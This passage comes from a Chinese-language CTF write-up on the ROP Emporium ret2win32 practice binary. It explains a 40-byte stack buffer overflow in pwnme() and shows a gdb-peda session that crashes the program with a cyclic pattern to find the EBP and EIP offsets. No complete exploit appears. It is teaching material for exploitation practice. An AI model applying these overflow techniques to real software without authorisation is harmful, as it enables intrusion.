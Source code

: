 ```text
   0x08048677 <+30>:    call   0x8048430 <system@plt>
   0x0804867c <+35>:    add    esp,0x10
   0x0804867f <+38>:    nop
   0x08048680 <+39>:    leave  
   0x08048681 <+40>:    ret
End of assembler dump.
```

函数 `pwnme()` 是存在缓冲区溢出的函数，它调用 `fgets()` 读取任意数据，但缓冲区的大小只有 40 字节（`0x0804864a <+84>:    lea    eax,[ebp-0x28]`，0x28=40），当输入大于 40 字节的数据时，就可以覆盖掉调用函数的 ebp 和返回地址：

```text
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /home/firmy/Desktop/rop_emporium/ret2win32/ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
EBX: 0x0
ECX: 0xffffd5c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
EDX: 0xf7f90860 --> 0x0
ESI: 0xf7f8ee28 --> 0x1d1d30
EDI: 0x0
EBP: 0x41304141 ('AA0A')
ESP: 0xffffd5f0 --> 0xf7f80062 --> 0x41000000 ('')
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffd5f0 --> 0xf7f80062 --> 0x41000000 ('')
0004| 0xffffd5f4 --> 0xffffd610 --> 0x1
0008| 0xffffd5f8 --> 0x0
0012| 0xffffd5fc --> 0xf7dd57c3 (<__libc_start_main+243>:       add    esp,0x10)
0016| 0xffffd600 --> 0xf7f8ee28 --> 0x1d1d30
0020| 0xffffd604 --> 0xf7f8ee28 --> 0x1d1d30
0024| 0xffffd608 --> 0x0
0028| 0xffffd60c --> 0xf7dd57c3 (<__libc_start_main+243>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$ pattern_offset $ebp
1093681473 found at offset: 40
gdb-peda$ pattern_offset $eip
1094796865 found at offset: 44
```
